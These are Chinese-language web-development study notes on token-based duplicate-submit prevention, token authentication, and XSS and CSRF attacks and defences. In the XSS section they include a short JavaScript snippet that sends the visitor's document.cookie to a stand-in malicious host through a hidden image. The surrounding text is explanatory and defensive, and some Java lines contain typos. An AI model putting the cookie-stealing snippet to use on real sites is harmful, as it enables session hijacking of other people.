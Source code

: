 ## token技术的功能及实现
1. 功能
    - 防止表单重复提交
    - 用来作身份验证
2. 防止表单重复提交的实现
    - 用户第一次请求表单页面，服务器生成token，并放在session中存放，将token发送给客户端
    ```
    //生成token
    UUID token = UUID.randomUUID();
    //放入session中
    request.getSeeion().setAttribute("token",token.toString())
    //放入request传到前台
    request.setAttribute("token",token)
    ```
    - 当用户第一次提交表单，将token一起发送给服务器，与后台的session中的token对比，对比成功，删除session中的token，防止表单重复提交
    ```
    //获取session中的token
    Object token1 = request.getSession().getAttribute("token");
    //获取客户端的token
    String token = request.getParameter("token");
    if(token1 == null){
        System.out.print("提交出错");
    }else if(!token1.equals(token)){
        System.out.print("提交出错");
    }else{
        System.out.print("提交成功");
        //删除session，防止重复提交
        request.getSession().removeAttribute("token");
    }
    ```
3. 基于token的身份验证
    - 客户端使用用户名跟密码请求登陆
    - 服务器端收到请求，去验证用户名和密码成功后，服务器端会签发一个token，再把这个token发送给客户端
    - 客户端收到token存储（cookie或者localStorage），然后每次请求带着token，服务端进行验证

## XSS和CSRF防御
- XSS跨站脚本（cross-site scripting）和CSRF跨站请求伪造（cross-site request forgery）都属于跨站攻击，XSS是实现CSRF诸多途径中的一条，但不是唯一一条；XSS的本质是让对方浏览器执行
你插入的js，来获取cookie等信息；而CSRF是借用户的身份，向服务器发送请求
XSS分为存储型和反射型：
    - 存储型XSS，持久化，代码是存储在服务器中的，如在个人信息或发表文章等地方加入代码，如果没有过滤或者
    过滤不严，那么这些代码将存储到服务器中，用户访问该页面的时候触发代码执行。这种XSS比较危险，容易造成
    蠕虫，盗窃cookie等
    - 反射型XSS，非持久化，需要欺骗用户自己去点击连接才能触发XSS代码执行。这种XSS代码出现在url中，作为输入
    提交到服务器，服务器端解析后响应，XSS代码随响应内容一起传回给浏览器，最后浏览器解析执行XSS
- XSS防范
    - 客户端校验用户输入信息，只允许输入合法的值，其他一概过滤掉，防止客户端输入恶意的js代码被植入到HTML代码
    中，使得js得以执行
        - 移除用户上传的DOM属性，如onerror等
        - 移除用户上传的style节点，script节点，iframe节点等
    - 对用户输入的代码标签进行转换（html encode）
    - 对url中的参数过滤
    - 对动态输出到页面的内容进行html编码
    - 服务端对敏感的cookie设置httpOnly属性，使js脚本不能读取到cookie
    - CSP即是Content security policy
    ```
    var img = document.createElement('img')
    img.src = 'http://www.xss.com?cookie=' + document.cookie
    img.style.display = 'none'
    document.getElementByTagName('body')[0].appendChild(img)
    //这样就神不知鬼不觉的把当前用户的cookie发送给了我的恶意网站，我的恶意站点通过获取get参数就拿到了用户的cookie
    ```
    目前很多浏览器都会自身对用户的输入进行判断，检测是否存在字符攻击，比如script标签，这段代码很明显是一段xss攻击，
    因此浏览器会对这段输入进行处理，不同的浏览器处理方式也不一样。可以在浏览器中将它拦截关闭
- 跨站请求伪造的过程与防范
过程：用户小明在你的网站A上面登录了，A返回了一个SessionID（使用cookie存储），小明的浏览器保持着A站的登录状态，攻击
者小强给小明发送了一个链接地址，小明打开地址的时候，这个页面已经自动的对网站a发送一个请求，通过使用小明的cookie信息，
这样攻击者小强就可以随意更改小明在A上的信息
    - 使用token：服务器随机产生token为密钥生产一段密文，把token和密文都随cookie交给前端，前段发起请求时把密文和
    token交给后端，后端对token和密文进行验证，看token能不能生成同样的密文，这样即使黑客拿到了token也无法拿到密文
    ```
    http://www.weibo.cn?follow_uid=123&token=73ksdkfu102
    ```
    - 使用验证码：每一个重要的post提交页面，使用一个验证码，因为第三放网站无法获取验证码
    - 检测http的头信息refer。refered记录了请求的来源地址，服务器要做的验证是这个来源地址是否合法
    - 涉及敏感操作的请求改为post请求